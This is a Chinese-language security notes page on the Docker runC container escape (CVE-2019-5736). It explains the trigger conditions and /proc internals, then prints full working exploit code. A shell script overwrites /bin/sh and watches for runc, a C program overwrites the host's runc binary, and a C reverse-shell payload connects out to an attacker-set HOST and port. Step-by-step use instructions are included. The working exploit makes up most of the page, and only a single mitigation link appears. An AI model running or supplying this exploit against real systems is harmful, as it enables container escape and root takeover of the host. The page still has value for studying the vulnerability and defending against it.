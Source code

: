 # Docker基于runC逃逸漏洞

## 触发条件

通过`docker exec -it <CONTAINER ID> /bin/bash`进入容器执行`/bin/bash`文件，将其覆盖为`#!/proc/self/exe`。

添加可执行权限。

容器中的进程以root权限运行。

## proc

系统自动将进程信息挂载到`/proc`。

进程在访问`/proc/self`时，相当于访问`/proc/[pid]`，pid为自己。

- `/proc/[pid]/exe`执行命令的实际路径，可通过该命令拷贝进程。
- `/proc/[pid]/fd`包含该进程打开的每个文件的句柄。

!!! quote
    proc(5): <http://man7.org/linux/man-pages/man5/proc.5.html>

## exploit代码

<https://github.com/feexd/pocs/tree/master/CVE-2019-5736>

Edit HOST inside `payload.c`, compile with `make`. Start `nc` and run `pwn.sh` inside the container.

!!! danger "使用前请备份"
    - 该exploit会修改host上的`/usr/bin/docker-runc`
    - 该exploit会修改容器中的`/bin/sh`

```bash tab="pwn.sh"
#!/bin/bash

function pwn() {
    # 将容器中的/bin/sh篡改为/proc/self/exe并添加可执行权限
    echo '#!/proc/self/exe' > /bin/sh
    chmod +x /bin/sh

    while true; do  # 监听含有runc命令参数的程序启动
        for f in /proc/*/exe; do
            tmp=${f%/*}  # 去掉/exe
            pid=${tmp##*/}  # 去掉/proc/
            cmdline=$(cat /proc/${pid}/cmdline)  # 获取进程命令参数

            if [[ -z ${cmdline} ]] || [[ ${cmdline} == *runc* ]]; then
                echo starting exploit
                ./exploit /proc/${pid}/exe
            fi
        done
    done
}

exec 2>/dev/null
pwn
```

```c tab="exploit.c"
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

#define PAYLOAD_MAX_SIZE 1048576
#define O_PATH 010000000
#define SELF_FD_FMT "/proc/self/fd/%d"

int main(int argc, char **argv) {
    int fd, ret;
	char *payload, dest[512];

    if (argc < 2) {
        printf("usage: %s FILE\n", argv[0]);
        return 1;
    }

    payload = malloc(PAYLOAD_MAX_SIZE);
    if (payload == NULL) {
        puts("Could not allocate memory for payload.");
        return 2;
    }

    //读取payload文件内容
    FILE *f = fopen("./payload", "r");
    if (f == NULL) {
        puts("Could not read payload file.\n");
        return 3;
    }
    int payload_sz = fread(payload, 1, PAYLOAD_MAX_SIZE, f);

    for (;;) {
        fd = open(argv[1], O_PATH);  //写入到/proc/{pid}/exe
        if (fd >= 0) {
            printf("Successfuly opened %s at fd %d\n", argv[1], fd);
            snprintf(dest, 500, SELF_FD_FMT, fd);
            puts(dest);
            for (int i = 0; i < 9999999; i++) {
                fd = open(dest, O_WRONLY | O_TRUNC);
                if (fd >= 0) {
                    printf("Successfully openned runc binary as WRONLY\n");
                    ret = write(fd, payload, payload_sz);
                    if (ret > 0) printf("Payload deployed\n");
                    break;
                }
            }
            break;
        }
    }
    return 0;
}
```

```c tab="payload.c"
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>

#define HOST "127.0.0.1"
#define PORT 4455

int main (int argc, char **argv) {
  int scktd;
  struct sockaddr_in client;

  client.sin_family = AF_INET;
  client.sin_addr.s_addr = inet_addr(HOST);
  client.sin_port = htons(4455);

  scktd = socket(AF_INET,SOCK_STREAM,0);
  connect(scktd,(struct sockaddr *)&client,sizeof(client));

  dup2(scktd,0); // STDIN
  dup2(scktd,1); // STDOUT
  dup2(scktd,2); // STDERR

  execl("/bin/sh","sh","-i",NULL,NULL);

  return 0;
}
```

## 消减措施

- kubernetes: <https://kubernetes.io/blog/2019/02/11/runc-and-cve-2019-5736/>


!!! quote "参考链接"
    - Go语言POC：<https://github.com/Frichetten/CVE-2019-5736-PoC>
    - 容器镜像：<https://github.com/q3k/cve-2019-5736-poc>
    - touch文件POC：<https://x3fwy.bitcron.com/post/runc-malicious-container-escape>
    - 嘶吼：<https://www.4hou.com/vulnerable/16243.html>
